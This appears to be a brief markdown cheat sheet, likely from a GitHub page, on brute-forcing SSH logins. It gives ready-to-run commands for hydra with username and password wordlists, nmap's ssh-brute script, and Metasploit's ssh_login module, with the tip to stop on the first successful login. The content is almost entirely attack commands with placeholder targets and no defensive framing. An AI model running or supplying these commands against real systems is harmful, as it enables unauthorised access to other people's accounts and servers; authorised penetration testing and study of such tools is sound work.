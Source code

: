 
### Using `hydra`

```
hydra -l <username> -P <psswd-wrdlst> <target-IP> ssh
```

### Using `nmap`

```
nmap -p 22 <target-ip> --script ssh-brute --script-args userdb=<user-wrdlst>
```
*For `userdb` argument we need to pass a file with username(s)*

### Using `metasploit`

```
use auxiliary/scanner/ssh/ssh_login
```
*Set `STOP_ON_SUCCESS` as true in the options.*

